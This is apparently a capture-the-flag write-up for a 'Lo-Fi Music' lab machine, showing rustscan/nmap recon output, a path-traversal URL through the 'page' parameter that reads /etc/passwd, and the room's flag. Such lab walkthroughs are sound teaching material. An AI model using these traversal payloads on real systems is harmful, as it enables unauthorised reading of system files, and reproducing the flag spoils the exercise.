




## TL;DR

We have `LFI` at the url parameter `page`, we can get the flag.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                      
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3b:8a:52:cb:6d:df:e4:85:20:f0:01:7b:0c:9d:2f:70 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDtbHCQxOu6xfHQ/7kQVc6GzSPbzU5PrJLyW0mUuklhkcv1qwWMdXRw/RRv0Q9ip2XiLn1vIGSt/28spyO34b5Hyl2OiYl/Y4ECXjzVQvt0X4/TiWPo5Su9iSLE6DyT9VMB8PM6Yw33upvv1M0TNohpUPOXo9sq3iOt7SEp1GSeHNOCoY2Ye7Qz+xCoh++CHdPsAs7PL6PUn1HKG7yvSUl9srzGmU4ffu3hhTH5bv9EeHRxLMsY/DCc9ntlkLKSKo9+QFs0xUcX7clzvGGcY91FO1PaNpQlY8tf1UI80pkM9tsRzTtAqYCx/zFtMDm8bghgxElCy9B2bBnF/Z9GSemTcT6lSDPLR/nR/9/9/UTMvOJpG4S1IsxhQCW3zqPzw4OOCgji3ehPdoCVi0xnjEJ7w8j6bhurqMJe+s7bVmitQ7jgLHcdp8mjfDvFsUXSjuZ4UxiPrL9Nd06AnzoDJl2zV0uVE6wklFGx4pFGvRFPOOmdS+WYCWR4M95XRv4lyfM=
|   256 7b:a3:14:20:f5:37:ce:3f:c4:a7:42:7a:fe:44:75:b6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKkE0rItuL9T6Y67gNdqU6Ev+SvDHkYjthKHQHZ2Lo9AmsbPr0npTbMMSkSzQfrrD3ERpAnkQ2tMGo9jmLns/Ro=
|   256 5e:6b:af:ae:84:a2:2a:97:85:03:3b:58:0b:5e:a8:fc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICQGrmLPdj1PiAema1qm92iYpoX19nsPgmLKAfQ4L2fs
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Lo-Fi Music
|_http-server-header: Apache/2.2.22 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `lofi.thm` to my `/etc/hosts`.

### Find page url parameter with LFI

I went to the website, we can see potential `LFI` here



I tried to get `/etc/passwd`, using this next URL, and it worked
```bash
http://lofi.thm/?page=../../../../../etc/passwd
```



We won't get shell, but we can grab the flag that is found at `/flag.txt`



The flag:
```bash
flag{e4478e0eab69bd642b8238765dcb7d18}
```


